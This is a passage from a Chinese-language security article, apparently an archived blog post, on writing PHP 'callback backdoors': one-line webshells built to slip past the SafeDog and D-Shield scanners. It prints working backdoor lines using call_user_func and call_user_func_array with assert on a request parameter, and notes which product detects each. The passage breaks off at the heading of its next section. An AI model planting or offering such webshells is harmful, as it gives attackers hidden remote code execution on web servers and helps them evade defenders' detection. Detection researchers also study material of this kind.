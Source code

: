# 创造tips的秘籍——PHP回调后门

0x00 前言
=======

* * *

最近很多人分享一些过狗过盾的一句话，但无非是用各种方法去构造一些动态函数，比如`$_GET['func']($_REQUEST['pass'])`之类的方法。万变不离其宗，但这种方法，虽然狗盾可能看不出来，但人肉眼其实很容易发现这类后门的。

那么，我就分享一下，一些不需要动态函数、不用eval、不含敏感函数、免杀免拦截的一句话。

有很多朋友喜欢收藏一些tips，包括我也收藏了好多tips，有时候在渗透和漏洞挖掘过程中很有用处。

一句话的tips相信很多朋友也收集过好多，过狗一句话之类的。14年11月好像在微博上也火过一个一句话，当时也记印象笔记里了：

![enter image description here](http://drops.javaweb.org/uploads/images/bb08a49bfe6702613fd3eb84920ab127729f43b9.jpg)

最近又看到有人在发这个：http://www.secoff.net/archives/436.html

有同学收集tips，就有同学创造tips。那么我们怎么来创造一些过狗、过D盾、无动态函数、无危险函数（无特征）的一句话（后门）？

根据上面这个pdo的一句话，我就可以得到一个很具有普适性的结论：php中包含回调函数参数的函数，具有做后门的潜质。

我就自己给这类webshell起了个名字：回调后门。

0x01 回调后门的老祖宗
=============

* * *

php中call_user_func是执行回调函数的标准方法，这也是一个比较老的后门了：

```
call_user_func('assert', $_REQUEST['pass']);

```

assert直接作为回调函数，然后$_REQUEST['pass']作为assert的参数调用。

这个后门，狗和盾都可以查到（但是狗不会拦截）：

![enter image description here](http://drops.javaweb.org/uploads/images/d21dacabf1b4922720d1fc0df5e9f316936f01e1.jpg)

可php的函数库是很丰富的，只要简单改下函数安全狗就不杀了：

```
call_user_func_array('assert', array($_REQUEST['pass']));

```

`call_user_func_array`函数，和`call_user_func`类似，只是第二个参数可以传入参数列表组成的数组。如图：

![enter image description here](http://drops.javaweb.org/uploads/images/ad9742226ebced4cedefdf8419d896f79c979f1a.jpg)

可见，虽然狗不杀了，D盾还是聪明地识别了出来。

看来，这种传统的回调后门，已经被一些安全厂商盯上了，存在被查杀的风险。

0x02 数组操作造成的单参数回调后门
===================
